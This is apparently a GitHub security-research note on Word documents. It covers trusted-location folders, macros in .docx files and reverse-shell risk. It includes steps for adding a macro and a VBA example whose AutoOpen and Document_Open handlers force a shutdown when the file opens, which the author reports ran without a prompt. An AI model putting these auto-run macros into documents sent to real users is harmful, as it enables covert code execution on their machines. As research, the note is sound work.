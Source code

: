 ## Security researching microsoft word (.docx) documents
### Observation 1: Word trusted locations
``` C:\Users\[User]\AppData\Roaming\Microsoft\Word\Startup\
C:\Users\[User]\AppData\Roaming\Microsoft\Templates\ ```
Some locations are deemed as "trusted" locations by word, which means running a word document from there can run macros or activeX without prompt. This could potentially be leveraged by threat actors who could first write a word doc into that location and runit thereby any macros associated.

### Observation 2: Word extensions for macro enabled/disabled documents
Under normal circumstances, .docm is the default extension for any macros added. However through the developer ribbon, macros can be added without changing the file extension. This greatly increases the risk of a reverse shell running in the background, especially one that tunnels through trusted channels like discord.
Here's how!!
1.) Check developer under File -> Options -> Customise Ribboms -> Right box -> Developer
2.) Create a new macro and paste in the script
3.) Save the document

### Example
```vbs
Sub AutoOpen()
'
' AutoOpen Macro
'
'
    CreateObject("Wscript.shell").Run "shutdown -s -f -t 500"
End Sub
 
Sub Document_Open()
    CreateObject("Wscript.shell").Run "shutdown -s -f -t 500"
End Sub
```
Referenced from [Reverse Shell From Word Document (Agis, 2021)](https://github.com/Agisthemantobeat/Reverse-Shell-From-Word-Document)
The above script, when pasted in as a module (macro), opens the shell and schedules a shutdown.
I tested it on a docx outside of trusted directory and word protection (editing enabled) which ran without any prompts.


### More possibilities?

Active X is a feature written in the same language as the above macro (vbs), and it allows the user to interact with the document. It can also be used to run macros though it won't make much of a difference. 

Office generally allows interaction between office apps, so perhaps we could do it for excel?
